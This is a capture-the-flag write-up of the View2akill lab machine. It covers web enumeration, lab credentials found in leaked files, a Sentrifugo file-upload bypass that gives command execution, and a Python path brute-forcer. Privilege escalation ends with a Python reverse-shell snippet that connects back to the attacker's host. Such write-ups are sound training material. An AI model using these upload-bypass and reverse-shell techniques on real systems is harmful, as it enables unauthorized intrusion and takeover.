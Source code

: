 ```yaml
---
layout: post
title: View2akill writeup
date: 2019-11-16 11:17
---
```


<h4 align="center">Box Author: <a href="https://twitter.com/_creosote"> Melvin C</a></h4>

## Nmap

![](images/kill/nmap.png)

so there is a SMTP server there and also there is a HTTP service on port 8191.

Let's start our enumeration from HTTP service.

***

## HTTP

![](images/kill/website.png)

we can see a really cool looking GIF. I ran gobuster on the website and found we directories:

![](images/kill/gobuster.png)

The first thing I checked was the `robots.txt`

![](images/kill/robots.png)

From there I decided to look into `/zorin` and there I found `hr.html` which had a message

![](images/kill/zorin.png)

```
In the mean time use /sentrifugo for current HR mgmt.

During this transition period all new users (from now on) will have their sentrifugo passwords automatically set to toor so no real email address is required for the system to send the initial automatically generated password. Please be patient as the reset to toor may take up to a minute.
```

Then in `/dev` I found some files.

![](images/kill/dev.png)

The first thing I downloaded from that one was `e_bkup.tar.gz` which had 3 `rtf` file and one of them named `New_Employee_Onboarding_Chuck.rtf` had some information on what the password for `Chuck` would be.

![](images/kill/chuck-password.png)

```
Greeting Chuck, We welcome you to the team! Please login to our HR mgmt portal(which we spoke of) and fill out your profile and Details. Make sure to enter in the descrption of your CISSP under Training & Certificate Details since you mentioned you have it. I will be checking that section often as I need to fill out related paperwork. Login username: chuck@localhost.com and password is the lowercase word/txt from the cool R&D video I showed you with the remote detonator + the transmit frequency of an HID proxcard reader - so password format example: facility007. Sorry for the rigmarole, the Security folks will kill me if I send passwords in clear text. We make some really neat tech here at Zorin, glad you joined the team Chuck Lee! }
```

So after looking at the `remote_control.gif` I found out that the password was `helicopter125`. Now on the `/zorin/hr.html` we found out that for `HR mgmt` we need to visit `/sentrifugo`.

![](images/kill/sentri.png)

Using `chuck@localhost.com - helicopter125` I was able to login into the HR system. Now I looked around but didn't found anything then I used  `searchsploit` and found out that there were 3 vulnerabilities.

![](images/kill/search.png)

The crazy part is that all these vulnerabilities are actually found by the box author himself.

I tried the XSS vulnerability but that didn't worked for (it worked for @andreaz) so I decided to use the [File Upload Restriction Bypass](https://www.exploit-db.com/exploits/47323). In that exploit two places are mentioned to upload the shell:

```
/sentrifugo/index.php/mydetails/documents -- Self Service >> My Details >> Documents (any permissions needed)
sentrifugo/index.php/policydocuments/add -- Organization >> Policy Documents (higher permissions needed)
```

But none of them were accesible, then [@theart42](https://twitter.com/theart42) found that we are allowed to upload the expense report in `/sentrifugo/index.php/expenses/expenses`.

You can follow the exploit to get the RCE on the system. All you need to do is upload a file named `shell.php.doc` and while uploading edit the file name to `shell.php` and then save it. Then you need to visit
```
http://192.168.56.136/sentrifugo/public/uploads/expense_receipt_temp/1573960913_3_shell.php
```

And to be able to execute command we need to enter parameter `?cmd=`

![](images/kill/RCE.png)

Once I had the RCE I tried executing the `nc` command but I was not able to run them. So I uploaded a php reverse shell and then executed it which gave me the shell.

![](images/kill/rev.png)

***

## Privilege escalation

In the `/home/jenny` I found a `zip` file.

![](images/kill/dir.png)

I downloaded the zip file and then unzipped it and it gave out `password.txt` and `todo.txt`

![](images/kill/unzip.png)

![](images/kill/todo.png)

![](images/kill/password.png)

```
hr mgmt:
jenny@localhost.com - ThisisAreallYLONGPAssw0rdWHY!!!!

ssh
jenny - !!!sfbay!!!

```

Using those SSH credential I logged into jenny's account.

![](images/kill/ssh.png)

I started looking around and in `/home/max` I found a `note.txt` which read

```
Max,

The electronic controller web application you asked for is almost done. Located on port 8191 this app will allow you to execute your plan from a remote location.

The remote trigger is located in a hidden web directory that only you should know - I verbally confirmed it with you. If you do not recall, the directory is based on an algorithm:  SHA1(lowercase alpha(a-z) + "view" + digit(0-9) + digit(0-9)).

Example: SHA1(rview86) = 044c64c6964998ccb62e8facda730e8307f28de6 = http://<ip>:8191/044c64c6964998ccb62e8facda730e8307f28de6/

- Scarpine
```

This mean we need to write a code to be able to do that. To brute force the path I wrote a script in python which found the correct path for me:

```python
import string
from hashlib import sha1

import requests

URL = "http://192.168.56.136:8191/{}"
paths = []

for alpha in string.ascii_lowercase:
    for n in string.digits:
        for m in string.digits:
            path = sha1((alpha + "view" + n + m + "\n").encode("utf-8")).hexdigest()
            paths.append(path)


for i in paths:
    url = URL.format(i)
    r = requests.get(url)
    if len(r.content) > 167:
        print(url)
        break
```

With this I was able to find the correct URL to visit:

http://192.168.56.136:8191/7f98ca7ba1484c66bf09627f931448053ae6b55a

When I opened that URL I got a page with huge red button in it.

![](images/kill/thatpage.png)

When we hit that button we get

![](images/kill/nothing.png)

This mean it's executing the code that is supposed to be in `aView.py` because following was the content of `aView.py`

![](images/kill/aview.png)

so I copied the following code in that python file:

```python
import socket,subprocess,os
import pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.56.1",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

And then pressed that red button to get shell as root.

![](images/kill/root-shell.png)

Then I got the root flag.

![](images/kill/root2.png)

![](images/kill/root.png)

***

Oh this was an awesome machine just like other machines by creosote. I really enjoyed this, especially the fact that initial foothold depends on the vulnerabilities that were found by the author himself. 😱😱

Thanks for this awesome machine. Also thanks to [@theart42](https://twitter.com/theart42) and [@4nqr34z](https://twitter.com/4nqr34z) for the help.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
